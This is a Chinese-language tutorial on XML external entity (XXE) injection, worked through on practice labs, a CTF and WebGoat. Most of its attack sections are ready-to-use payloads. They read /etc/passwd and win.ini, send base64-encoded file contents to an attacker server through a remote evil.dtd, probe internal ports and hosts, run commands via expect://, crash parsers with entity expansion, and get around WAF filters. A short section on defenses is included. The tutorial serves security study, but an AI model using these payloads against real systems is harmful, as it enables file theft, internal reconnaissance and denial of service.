一、XML简介
XML，即Extensible Markdown Language，可扩展标记语言的缩写。XML是一种允许用户对自己的标记语言进行定义的源语言，可以用于标记数据，定义数据类型。XML是标准通用标记语言，具有可扩展性好、内容与形式分离、语法要求严格、保值性好等优点。
XML与HTML非常相似，但是XML的设计宗旨是用于传输数据，而HTML的设计宗旨是用于展示数据。XML的标签没有被预定义，因此我们可以自己定义标签。
二、XML语法规则
接下来，我们来讲解XML语法规则。
（一）XML基本语法
一个典型的XML文档如下所示：
<?xml version="1.0" encoding="utf-8" ?>
<person>
<name>Bob</name>
<age>24</age>
<address>1-1-110</address>
<country>China</country>
<major>History</major>
</person>在上述文档中，第一行是XML文档的头部声明，指明了XML文档的版本号和编码。XML对于头部声明并不严格要求，可有可无，但是一般最好写上头部声明。
在XML文档中，必须存在一个根节点，根节点是其他所有节点的父节点，在上述文档中，根节点是person。在XML中，所有的标签必须成对出现，标签名区分大小写并且标签不能交叉。但是标签名称可以自行定义。
（二）XML注释
XML文档中可以使用注释，注释的使用格式如下所示：
<!--This is annotation-->（三）XML属性
XML支持在标签元素中定义属性，写法类似于HTML，示例如下所示：
<name len="3">Bob</name>XML规定，一个标签可以有多个属性，但是属性的值必须使用引号括起来。
（四）XML特殊字符处理
XML如果想表达特殊字符，有两种方法。
第一种方法是使用转义字符，常用的转义字符如下表所示：

第二种方式是使用CDATA区域，CDATA区域定义如下所示：
<![CDATA[【CDATA区域内容】]]>XML规定，对CDATA区域内的所有特殊字符不进行解析。
三、XML文档结构
XML文档结构包括XML声明、DTD类型定义（可选）、文档元素，同时XXE漏洞和DTD文档相关，所以这里主要对DTD进行介绍。
<!--XML申明-->
<?xml version="1.0"?>
<!--文档类型定义-->
<!DOCTYPE note [ <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,head,body)> <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)> <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)> <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)> <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)> <!--定义body元素为”#PCDATA”类型-->]]]>
上面这个 DTD 就定义了 XML 的根元素是 note，然后跟元素下面有一些子元素，那么 XML 到时候必须像下面这么写
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>四、DTD介绍
文档类型定义（DTD）可定义合法的XML文档构建模块，它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于XML文档中（内部引用），也可作为一个外部引用。
内部文档声名DTD:<!DOCTYPE 根元素 [元素声明]>
外部文档声明DTD:<!DOCTYPE 根元素 SYSTEM "文件名">
DTD文档中有很多重要的关键字如下：
DOCTYPE（DTD的声明）
ENTITY（实体的声明）
SYSTEM、PUBLIC（外部资源申请）其实除了在 DTD 中定义元素（其实就是对应 XML 中的标签）以外，我们还能在 DTD 中定义实体(对应XML 标签中的内容)，毕竟 XML 中除了标签以外，还需要有些内容是固定的
实例：
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>这里定义元素为 ANY ，意思是可以接收任何元素，接着定义了一个XML实体，这个实体我们可以看做一个变量，在后续我们可以通过 & 符号进行引用，那么后续的XML应该这样写
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>我们通过 &xxe 对上述定义的实体xxe进行引用，到时候输出结果就会将其替换为test。
实体根据引用方式，还可分为内部实体与外部实体，看看这些实体的申明方式。
1.1 内部实体声明
内部声明采用如下格式定义：
<!ENTITY 实体名 "实体值">声明之后就可以通过“&实体名;”来获取，示例如下
<!DOCTYPE foo [
<!ENTITY test "john">
]>
<foo>
<name>&test;</name>
</foo>1.2 外部实体声明
XXE 的产生正是外部实体引用的结果，可分为通用实体和参数实体。
（1）通用实体声明格式如下：
<!ENTITY 实体名 SYSTEM "URI">
或者
<!ENTITY 实体名 PUBLIC "public_ID" "URI"> //引用公用DTD文件举个例子：
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 &xxe; 来引用执行。（2）参数实体声明主要用于后续使用，与通用实体不同的是，它中间有百分号字符（%），其声明格式
如下：
<!ENTITY % 实体名称 "实体的值">
或者
<!ENTITY % 实体名称 SYSTEM "URI">注意：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用%实体名;引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用实例：
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>">
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd">
%an-element; %remote-dtd;参数实体在我们 Blind XXE 中起到了至关重要的作用
1.3 外部实体
由于XXE漏洞主要是利用引入外部实体，而导致的漏洞，所以这里主要了解外部实体。而外部实体又分为很多的类型。这里面的类型一些是在之前比如文件包含等中提到的一些协议，以及未提及到的协议。
外部实体在DTD中使用
<!ENTITY 实体名称 SYSTEM "URI">根据程序不同，能够引入的实体也是不同的，例如：

上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有

外部实体演示：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY content SYSTEM "file:///etc/passwd">]>
<foo>
<value>&content;</value>
</foo>五、XXE漏洞基本介绍
1.1 XXE漏洞基本概念
XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。XXE漏洞全称XMLExternal Entity Injection，即xml外部实体注入漏洞。
XML就是传输和存储数据的一个类型。
XXE就是xml的漏洞注入的全称。1.2 XXE漏洞危害
XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。
1.3 XXE漏洞输出形式
XXE漏洞的输出显示分为：有回显、无回显。
有回显就能够配合协议以及外部引入进行攻击。
无回显就需要配合外部引入-反向链接配合。
1.4 XXE漏洞相关差异
XML和HTML的差异
XML被设计为数据传输和存储数据，其焦点是数据的内容。
HTML被设计用来显示数据，其焦点是数据的外观。
HTML指在显示信息，而XML指在传输数据。
六、XXE漏洞检测
第一步检测XML是否会被成功解析：
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY name "my name is nMask">]>
<root>&name;</root>如果页面输出了my name is nMask，说明xml文件可以被解析。

第二步检测服务器是否支持DTD引用外部实体：
<?xml version=”1.0” encoding=”UTF-8”?>
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "http://localhost/index.html">
%name;
]>可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求index.xml的请求。

如果支持引用外部实体，那么很有可能是存在xxe漏洞的。
七、XXE漏洞测试
在测试中所有的语句基本上的固定格式，也就是说构建的payload基本上只需要修改调用协议，以及相关的参加即可，其它的格式，都是固定的可以直接使用。
这里由于某些工具没咋见过，我就先弄php的xxe吧
1.1.有回显测试
像之前提到的，如果有回显，那么就可以配合更多的协议或外部引入进行利用。那么这里就先简单测试一下有回显状态。
1.1.1.有回显案例
这里我们使用xxe-labs靶场。下载链接：https://github.com/c0ny1/xxe-lab
测试回显位置
通过测试，能够看到在admin位置是存在回显的，而后面的password位置的1234是没回显的。

构建payload
构建payload后，也是成功的读取到了文件。
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY name SYSTEM "file:///c://windows/win.ini">
]>
<user><username>&name;</username><password>1</password></user>
1.1.2.特殊符号读取
我们可以看到上述读取到的内容正常回显，那如果我们读取一下文件的内容会如何呢？
# /etc/fstab: static file system information.
# # <file system> <mount point> <type> <options> <dump> <pass>
proc /proc proc defaults 0 0 /dev/hda2 /
ext3 defaults,errors=remount-ro 0 1 ...
我们会发现页面报错无法正常读取，究其原因是该文件中含有特殊字符：
引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)对于这种情况我们就需要使用 CDATA 来进行绕过：
有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者" 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记
<![CDATA[XXXXXXXXXXXXXXXXX]]>
可以输入任意字符除了 ]]> 不能嵌套
用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来那我们需要想办法在引用的两边加上 "”,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY start "<![CDATA[">
<!ENTITY goodies SYSTEM "file:///d:/test.txt">
<!ENTITY end "]]>">
<roottag>&start;&goodies;&end;</roottag>
可以看到依旧报错，说明我们不能在xml中进行拼接，应该先拼接好以后再在xml中调用（也就是首先在DTD中拼接好），那这种情况就需要利用参数实体了
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
%dtd; ]>
<roottag>&all;</roottag>
可以看到正常读取
1.2.无回显测试
参考：https://xz.aliyun.com/t/3357#toc-0
无回显的情况又称为blind xxe可以使用外带数据通道提取数据。而且在正常的环境下，服务器端通常都会把回显取消。因此我们解决该问题最好的办法就是使用外带的方式。
1.2.1.无回显常规测试案例
1.2.1.1.关闭报错及输出
这里我们先把XXElabs靶场的输出及报错都关闭，模拟无回显情况。在账号上面添加一个error_reporting(0);，然后在下面的echo $result;前面添加一个//，即可模拟成功。
1.2.1.2.抓包测试
这里我们首先抓包进行测试，可以发现不在出现报错，以及原来显示的位置也不在显示。

1.2.1.3.构建payload
这里需要在外部搭建一台vps，无回显需要查看服务器的访问日志，当存在访问日志了，那么就可以证明是支持外部实体的，若不存在日志，则证明不支持外部实体，或者被WAF拦截。
payload：
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY % shit SYSTEM "http://192.168.10.50/1.txt">
%shit;
]>1.2.1.4.查看服务器日志
这里去攻击者服务器上查看一下日志，可以看到在服务器的访问日志中，查看到是存在一条访问日志的，那么就可以证明是支持外部实体的。

1.2.2.无回显DNSlog测试案例
上面的常规测试是需要我们自己搭建一个vps来进行测试，那么如果在刚开始测试的时候，不方便把自己的服务器地址暴露出来怎么办？
1.2.2.1.DNSlog方式
通过DNSlog方式看服务器是否有DNS或者HTTP的请求。但是由于不确定因素以及处于安全角度来考虑使用外部的DNSlog不安全，那么可以使用burp中自带的有官方架设的默认公共服务器上的DNSlog服务器。
DNSlog位置：
点击copy to clipboard后(这一步就是复制了子域名)，随后粘贴子域名即可。当请求时就会在下面的窗口中显示相关的请求信息。同时这个窗口不能关闭，若关闭了，那么就会销毁相关的信息。

1.2.2.2.构建payload
其实这里的payload和之前的payload基本一致。这里需要注意的是，我们复制的子域名是没有http://的需要我们自己添加上去。所以修改下面的payload的时候只需要把http://后面的内容替换即可，设置好后，点击发送。
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY % d SYSTEM "http://3nrivqeathjejd5mau53iamdk4qveq2f.oastify.com">
%d;
]>
1.2.2.3.查看效果
发送完成后，点击Poll now(现在调查)，当然也可以在复制子域名后就开始轮询，这边可能需要稍等一会就能显示出来，当看到结果后就可以判断是可以使用外部引入的。

1.3.总结
以上都是简单测试，以及了解相关的payload如何构建，下面才是真实的案例。
八、任意文件读取
所谓的任意文件读取，其实也就是读取受害者服务器中的敏感文件。这里同样分为无回显和有回显操作。这里我们使用xxe-labs靶场做演示。
2.1.有回显案例
2.1.1.抓包
我们在打开靶场后，输入账号和密码后对其进行抓包，然后放到重放器中。当然这里的账号和密码随便输都行。
2.1.2.构建payload
我们通过构建的payload对Windows中的配置文件，进行读取，也是成功读取了。
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ENTITY rabbit SYSTEM "file:///c:/windows/win.ini" >
]>
<user><username>&rabbit;</username><password>123</password></user>
2.2.无回显案例
2.2.1.修改配置文件
这里为了演示修改，我们把xxelabs中的报错和回显都关闭。
2.2.2.测试是否回显
通过测试发现是，无法回显了，这里需要注意，若你还是存在回显，那么刷新一些页面重新加载一下。

2.2.3.构建payload
准备一台攻击服务器，当然本地的使用虚拟机即可，并且开启服务器的访问日志。在根目录下创建一个evil.dtd文件。
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://185.243.241.45/?data=%file;'>"
>
%all;//攻击payload：
<!DOCTYPE updateProfile [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
%dtd;
%send;
]>2.2.4.查看访问日志
这里的查看访问日志，是在攻击者的服务器上查看，不要搞错。可以通过下面的图片看到，我们成功获取到日志。

2.2.5.查看日志内容
由于是base64加密的，所以我们还需要对其进行解密，通过解密可以看到，日志的内容和Windows中的win.ini的内容是一样的。

2.2.6.调用解释
这里需要结合payload进行理解，不然单单看解释有点难理解。
在构建的payload中会发现，可以看到挺难理解的，我们根据构建的payload进行解释一下，首先%dtd去调用vps上的evil.dtd文件，这个有点类似于将evil.dtd文件包含进来的感觉，然后调用evil.dtd文件中的%all，%all再去调用%file，而%file就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到%send 以后(因为实体的值中不能有 %, 所以将其转成html实体16进制编码%；)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，成功解决外带的情况。
2.3.基于报错案例
基于报错的原理和无回显类似，无回显通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。所以和无回显的构造方式几乎只有url出不同，其他地方一模一样。
简答来说，报错就是将返回的数据，本该返回回去，但由于URL地址是错误的，那么就会出现报错，将数据显示在报错中。
参考链接：https://blog.szfszf.top/tech/blind-xxe-详解-google-ctf-一道题目分析/
2.3.1.引入服务器文件案例
引入服务器文件的操作和无回显案例基本一致，就是上面提到的解释。
2.3.1.1.修改配置文件
这里为了能够实现报错，需要在配置文件中，将不显示报错内容给注释了。

2.3.1.2.构建payload
首先在攻击者服务器中创建evil.dtd文件，在文件中写入payload，在这个payload中会存在一个alskdnm的地方，原本在无回显中这里会写上服务器的IP地址，但是这里随便写一个不存在的地址，使其能够出现报错。
<!ENTITY % start "<!ENTITY % send SYSTEM 'http://alskdnm/?data=%file;'>">
%start;构建攻击的payload的语句
<?xml version="1.0"?>
<!DOCTYPE message [
<!ENTITY % remote SYSTEM "http://ip/evil.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
%remote;
%send;
]>
<message>1234</message>2.3.1.3.测试效果
通过返回的数据包内容，可以看到原本应该出现在服务器日志中的编码的数据，现在在前端中了，而这就是基于报错的原因。

2.3.1.4.编码还原
我们对编码进行还原，查看效果。

2.3.2.通过引入本地文件
关于引入本地文件，通过上面的参考链接中的作者的话，这样可行，但是引入本地链接，我这边没有靶场，不好进行测试，如果感兴趣可以去作者的文章中去了解一些，但是，引入本地文件，必然不是一件容易的事。实现起来不管是引入外部或内部，都挺困难的。当然在黔驴技穷的时候，这也是一个不错的办法。
九、探测端口存活
这里端口探测，经过测试，不管有没有回显，都只能靠响应时间来进行判断，这里如果不好判断，可以优先测试一下正常不会开放的端口，然后查看响应时长，然后再去测试一下，正常会开放的端口，例如：3389、80、443、22、23等端口。然后比较两个响应的时长，通常来说，端口开放了，响应会快一点，而端口未开放则响应会比较慢。
3.1.探测端口案例
这里依旧是使用xxelabs靶场做演示，这里我也不改什么回显不回显的情况了，直接进行测试。
3.1.1.抓包
这里把抓到的包放入重放器中。
3.1.2.构建payload
这里我开放了3389端口以及80端口，未开放22端口以及23端口。我们分别进行测试。
这里有两种payload，一种是直接在回显位置修改，一种是不需要管回显位置的内容，同时这里面输入的IP是内网中你想要测试的IP地址以及后面的端口号。这里我只测试一个payload。
1.payload
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://ip:3389" >]>
<user><username>&xxe;</username><password>123456</password></user>
2.payload：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://ip:3389" >]>
<root>
<name>&xxe;</name>
</root>3.1.3.测试开放端口
这里首先测试3389端口和80端口，注意看右下角的响应时间。
3.1.3.1.测试3389端口
在测试3389端口后，页面的响应时间为2312毫秒。

3.1.3.2.测试80端口
可以看到，我们测试80端口，响应时间为102毫秒。当我们使用第一种payload的时候同时存在回显的话，页面中就会把80端口页面中的信息也显示出来了，这里测试的结果是不是就可以间接性读取内网中其它服务器的敏感文件？

3.1.4.测试未开放端口
这里测试22端口以及23端口，主要看右下角响应时间，同时你也会发现一个问题。
3.1.4.1.测试22端口
测试22端口后，响应的时间达到了21秒多。

3.1.4.2.测试23端口
其实测试23端口后，发现同样也是21秒多。

3.2.自动化探测端口
3.2.1.抓包并修改
这里还是一样将抓到的包，并添加payload。
3.2.2.发送测试器
将修改好的包发送到测试器中，然后进行爆破。

3.2.3.设置变化内容
首先将所有的自动选择的内容全部清除，然后将设定要变化的端口。

3.2.4.设置载荷
我这里为了测试方便，我就随便输入几个端口，输入端口完成后，点击开始攻击

3.2.5.查看攻击效果
这里首先需要将列中接受响应计数勾上，然后点击接受响应计数，就会自动将最短的响应时长排在前面，这样我们就能够完成自动化测试了，无需手动测试，这里显示有四个时长短的

3.3.总结
从响应的时间对比，其实不难看出，当端口开放的时候就可以响应时间就比较快，而端口未开放的时候响应时间就比较长。
十、探测主机存活
这里的探测主机存活使用payload的以及判断和探测端口是基本上是一样的，只是将后面的端口取消，这里就放一个payload，需要注意哦，这里是基于xxelabs靶场构建的payload的。正常的payload可以看探测端口案例中构建的第二个payload，那个才是正常的。
payload：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://192.168.10.51" >]>
<user><username>&xxe;</username><password>123456</password></user>4.1.自动化探测主机存活
这里我就不演示手动测试的了，只演示自动化的。
4.1.1.设置变化内容
这里选中主机的最后一位，设置为变化的内容。

4.1.2.设置载荷
这里由于我就开一台服务器，是185.243.241.45，我们添加45但56与43我都没开启。（离谱的是我没有40这个主机，但却有响应，估计是别人的？）

4.1.3.查看攻击效果
从攻击的效果的响应时长来看，也就45、40的通的，其它都是不通的。

十一、更改Content-Type类型
这里就是解释在xxe的盲猜，在不确定是否能够执行的时候，通过修改Content-Type头，让其能够识别xml的语句，实现漏洞利用。更改Content-Type头类型有：application/xml与text/xml。
5.1.CTF题目案例
CTF-Jarvis-OJ-Web-XXE(CTF题)访问地址
5.1.1.抓包
通过抓包发现该靶场的数据的传输方式是json。

5.1.2.修改类型
这里我们需要将类型修改为xml。

5.1.3.构建payload
这里需要将原先下面输出的内容给删除，然后输入上payload。
payload：
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY b SYSTEM "file:///etc/passwd" >
]>
<x>&b;</x>5.1.4.测试效果
这里就可以看到我们成功读取到etc下的passwd内容。

十二、内网探测
和读文件差不多，只不过把URI改成内网机器地址
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://127.0.0.1/1.txt" >
]>
<user><firstname>&rabbit;</firstname><lastname>666</lastname></user>十三、RCE
XXE漏洞利用技巧：从XML到远程代码执行
这种情况很少发生，但有些情况下攻击者能够通过XXE执行代码，这主要是由于配置不当/开发内部应用导致的。如果我们足够幸运，并且PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行如下的命令：
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
<core id="test101">
<author>John, Doe</author>
<title>I love XML</title>
<category>Computers</category>
<price>9.99</price>
<date>2018-10-01</date>
<description>&xxe;</description>
</core>
</catalog>响应：
{"error": "no results for description uid=0(root) gid=0(root) groups=0(root)...十四、DOS
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。
亦或者，如果目标是UNIX系统，
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>如果 XML 解析器尝试使用/dev/random文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。
十五、绕过姿势
参考cl4y师傅博客xxe笔记
绕过WAF保护的XXE
ENTITY``SYSTEM``file等关键词被过滤
使用编码方式绕过：UTF-16BE
cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml
若http被过滤，可以
6.1.data://协议绕过
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % a " <!ENTITY % b SYSTEM 'http://118.25.14.40:8200/hack.dtd'> ">
%a;
%b;
]>
<test>&hhh;</test>6.2.file://协议文件上传
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % a SYSTEM "file:///var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
%a;
]>
<!--上传文件-->
<!ENTITY % b SYSTEM 'http://118.25.14.40:8200/hack.dtd'>6.3.php://filter协议文件上传
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % a SYSTEM "php://filter/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
%a;
]>
<test>
&hhh;
</test>
<!--上传文件-->
<!ENTITY hhh SYSTEM 'php://filter/read=convert.base64-encode/resource=./flag.php'><?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % a SYSTEM "php://filter/read=convert.base64-decode/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
%a;
]>
<test>
&hhh;
</test>
<!--上传文件-->
PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==6.4 其他
方法1：文档中的额外空格
方法2：格式无效
方法3: 外来编码（Exotic encodings）
方法4：在一个文档中使用两种类型的编码参考：https://xz.aliyun.com/t/4059 --绕过方法
十六、利用场景
7.1.svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
<text x="10" y="20">&file;</text>
</svg>tips:从当前文件夹读取文件可以使用/proc/self/cwd
7.2.excel
利用EXCEL进行XXE攻击
首先用excel创建一个空白的xlsx，然后解压
mkdir XXE && cd XXE
unzip ../XXE.xlsx将[Content_Types].xml改成恶意xml，再压缩回去
zip -r ../poc.xlsx *7.3 微信支付漏洞分析
实例二：微信支付的 XXE
前一阵子非常火的微信支付的 XXE 漏洞当然不得不提，当然目前我是看不懂的，所以就先了解一下
漏洞描述：
微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息，一旦攻击者获得了敏感的数据 (md5-key and merchant-Id etc.)，他可能通过发送伪造的信息不用花钱就购买商家任意物品
下载 java 版本的 sdk 进行分析，这个 sdk 提供了一个 WXPayUtil 工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中
如图所示：

问题就出现在横线划出来的那部分，也就是简化为下面的代码：
public static Map<String, String> xmlToMap(String strXML) throws Exception {
try {
Map<String, String> data = new HashMap<String, String>();
DocumentBuilder documentBuilder = WXPayXmlUtil.newDocumentBuilder();
InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
org.w3c.dom.Document doc = documentBuilder.parse(stream);
...可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是实验的步骤
首先在 com 包下又新建了一个包，来写测试代码，测试代码命名为 test001.java
如图所示：

test001.java
package com.test.test001;
import java.util.Map;
import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;
public class test001 {
public static void main(String args[]) throws Exception {
String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
"<!DOCTYPE XDSEC [\r\n" +
"<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
"<XDSEC>\r\n"+
"<XXE>&xxe;</XXE>\r\n" +
"</XDSEC>";
try{
Map<String,String> test = xmlToMap(xmlStr);
System.out.println(test);
}catch (Exception e){
e.printStackTrace();
}
}
}希望它能读取 D 盘下面的 1.txt 文件
运行后成功读取
如图所示：

当然，WXPayXmlUtil.java 中有这个 sdk 的配置项，能直接决定实验的效果，当然后期的修复也是针对这里面进行修复的
http://apache.org/xml/features/disallow-doctype-decl true
http://apache.org/xml/features/nonvalidating/load-external-dtd false
http://xml.org/sax/features/external-general-entities false
http://xml.org/sax/features/external-parameter-entities false整个源码那位师傅打包好了已经上传百度云：
链接：https://pan.baidu.com/s/1YbCO2cZpzZS1mWd7Mes4Qw 提取码：xq1b
上面说过 java 中有一个 netdoc:/ 协议能代替 file:///
如图所示：

十七、XXE漏洞防御
8.1.禁用外部实体
使用开发语言提供的禁用外部实体的方法。
PHP：
libxml_disable_entity_loader(true);
java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))8.2.过滤数据
可以将用户提交的xml数据进行过滤，例如关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。
十八、WebGoat靶场练习
关卡一

第一关是让我们在提交表单之后，尝试通过利用xxe漏洞进行命令执行来列举对应服务器上的根目录

bp抓包之后发现，这里是可以解析xml的，那我们直接构造payload即可
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ENTITY rabbit SYSTEM "file:///" >
]>
<comment><text>&rabbit;</text></comment>
这里提示我们成功列举，同时刷新网页之后会发现，列举出来的内容回显到了页面中

代码分析

看一下页面路由，找到java项目对应位置

先解释下上述代码涉及到的注解的含义：
| 注释 | 含义 |
|---|---|
| @Autowired | 控制如何完成自动连接或加载 |
| @AssignmentPath(“xxe/simple”) | 接收并处理发往xxe/simple的HTTP请求 |
| @RequestMapping(method = POST, consumes = ALL_VALUE, produces = APPLICATION_JSON_VALUE) | 配置 url 映射 |
| @ResponseBody | 表示该方法的返回结果直接写入 HTTP 返回包的正文中 |
| @RequestBody String commentStr | 表示将请求中的数据写入到 commentStr 这个 String 对象中 |
可以看到这里会接受post请求中正文的内容，赋值给commentstr参数，接着先判断session中是否函数属性：applysecurity，来确定secure的布尔值，接着调用comment类的parsexml函数，对该参数内容进行xml解析
我们接着跟踪该函数看看具体实现：

先了解一下前置知识：主要关注 JAXB
JAXBContext
- 前置知识：JAXB 作为 JDK 的一部分，能便捷地将 Java 对象与 XML 进行相互转换。
JAXBContext是整个 JAXB API 的入口。主要用来构建 JAXB 实例newInstance()。- Marshaller接口，将Java对象序列化为XML数据。
- Unmarshaller接口，将XML数据反序列化为Java对象。
JAXBContext.newInstance(Comment.class) 的作用是将 Comment 这个对象进行实例化，创建一个 JAXB 实例；实例名字在本代码中为 jc。
接着我们关注代码中的：

这里通过设置XMLConstants的属性来确定是否允许解析外部DTD，其中对于这两个属性的解释如下：
可以通过设置XMLConstants的两个属性来禁用外部实体解析，默认的空字符串就是禁用，但是这里secure值为true,所以没有禁用（SimpleXXE.java）这里就懵逼了，不是说空字符串才是禁用吗，那这里按道理应该是secure值为false啊，这样才不会将其设置为空字符串。而且回到上一处地方，可以看到他是来判断session中是否含有applysecurity属性来设置的，但这里似乎在bp上也没有该属性，这意味着secure就应该是false。
这里先放一下，我们只需要知道这里肯定是支持解析外部DTD的，我们接着分析

var xsr = xif.createXMLStreamReader(new StringReader(xml));：使用 XMLInputFactory 创建一个 XMLStreamReader 对象，用于解析 XML 字符串。
